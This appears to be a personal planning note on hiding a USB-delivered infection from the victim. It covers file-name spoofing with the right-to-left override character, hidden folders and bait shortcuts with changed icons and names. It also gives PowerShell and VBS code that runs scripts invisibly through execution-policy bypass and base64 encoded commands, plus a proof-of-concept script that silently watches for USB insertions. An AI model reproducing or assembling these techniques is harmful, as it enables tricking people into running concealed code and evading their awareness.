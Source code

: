 ```yaml
---
tags:
  - Work
  - USB
  - CCK
banner:
banner: "![[binary-numbers-tunnel-1080p-hd-wallpaper-wallpapers-h-w-ibackgroundz.com.jpg]]"
---
```


# Ideas to hide files

## Hide original files

To hide the infection even after openen the file the following options are given:
1. When executing the manipulated file, open the original file to avoid raising suspicion.
2. When running the manipulated file, replace itself with the original file.

Left-To-Right overwrite Unicode character: 202E


### ==Additional data Streams==

### Hidden folder
1. create a new hidden Folder
2. replace picture and name of folder with invisible ones


## Hide powershell console

https://stackoverflow.com/questions/40617800/opening-powershell-script-and-hide-command-prompt-but-not-the-gui
Hiding the console for .ps1 files when openen with gui 
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'

function Show-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()

    # Hide = 0,
    # ShowNormal = 1,
    # ShowMinimized = 2,
    # ShowMaximized = 3,
    # Maximize = 3,
    # ShowNormalNoActivate = 4,
    # Show = 5,
    # Minimize = 6,
    # ShowMinNoActivate = 7,
    # ShowNoActivate = 8,
    # Restore = 9,
    # ShowDefault = 10,
    # ForceMinimized = 11

    [Console.Window]::ShowWindow($consolePtr, 4)
}

function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
```

To hide the console with this code, all you need to do is call `Hide-Console`. Since you already have code in the `Shown` event (`$objForm.Add_Shown`) we can simply add another line to call the command:
```powershell
$objForm.Add_Shown({
    $objForm.Activate()
    Hide-Console
})
```

---

https://stackoverflow.com/questions/1802127/how-to-run-a-powershell-script-without-displaying-a-window
I add this code in the beginning of all my PowerShell scripts that I need to run in background.
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'
function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
Hide-Console
```

---

Create a shortcut that calls the PowerShell script and set the Run option to Minimized. This will prevent a window from flashing although you will still get a momentary blip of the script running on the Task Bar.

---

Make a vbs script to run a hidden batch file which launches the powershell script. Seems silly to make 3 files for this task but atleast the total size is less than 2KB and it runs perfect from tasker or manually (you dont see anything).

**scriptName.vbs**

```vbs
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "C:\Users\leathan\Documents\scriptName.bat" & Chr(34), 0
Set WinScriptHost = Nothing
```

**scriptName.bat**

```batch
powershell.exe -ExecutionPolicy Bypass C:\Users\leathan\Documents\scriptName.ps1
```

**scriptName.ps1**

```powershell
Your magical code here.
```

---

A single vbs file solution. You first have to convert your ps script to base64 string, place it in a variable in the template shown below and save it as I vbs file. Runs without powershell popppring up.

```vbs
dim EncodedCommand
EncodedCommand = "COMMAND"

pSCmd = "powershell.exe -noexit -windowstyle Hidden -executionpolicy bypass -encodedcommand " & EncodedCommand

CreateObject("WScript.Shell").Run pSCmd, 0, True
```
---

# PoC

The Script can be executed through a shortcut with the following options:
```
powershell.exe -executionpolicy bypass -noexit -windowstyle hidden
```

Additionally should the run option be set to Minimized and the Icon and Name has to be changed.

If a folder is supposed to be the "bait", the folder needs to be hidden and the name copied.

This needs to be added at the end of the command:
```
explorer.exe .\<<folder>>
```
This opens a new explorer window with the open folder. 

The script to start a sub process that listenes to newly inserted USB devices:
```
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'
function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
Hide-Console
$Script = @'
    $Devices = Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
    $DeviceCount= $Devices.Count
    while ($Devices.Count -le $DeviceCount) {
        Write-Host "Waiting for USB devices to be connected..."
        $Devices = Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
        Start-Sleep -Seconds 0.1
    }
    Stop-Process -ID $PID
'@

Remove-Item -Path "C:\Users\Public\Documents\test.ps1" -Force
New-Item -Path "C:\Users\Public\Documents\test.ps1" -ItemType "file" -Value $Script
Start-Process powershell.exe -ArgumentList "-noexit", "C:\Users\Public\Documents\test.ps1" #-WindowStyle Hidden 
```
